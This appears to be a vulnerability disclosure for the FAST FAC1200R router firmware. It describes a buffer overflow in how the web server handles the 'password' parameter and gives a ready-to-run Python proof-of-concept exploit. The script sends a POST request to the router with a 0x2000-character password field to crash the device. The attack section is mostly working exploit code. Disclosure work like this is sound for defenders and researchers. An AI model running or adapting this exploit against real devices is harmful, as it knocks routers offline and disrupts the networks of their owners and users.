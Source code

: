 Submittion Date: 2025.4.18  
Vendor: FAC1200R  
Firmware: F400_FAC1200R_Q  
Download Link: https://service.fastcom.com.cn/download-265.html

The function sub_80435780 handles the important parameter string 'password' without checking it, which leads to a buffer overflow vulnerability. After attacking, the device will crash (leading to DOS).

![image](image/uhttpd-fast-1.png)

Exploit the vulnerability by sending a carefully constructed HTTP request
```python
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds "
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
data={"uhttpd":{"webPwd":{"password":"a"*0x2000,"fac_password":"a"}},"method":"set"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```

The exploitation is shown below.  
![image](image/fast-1.png)
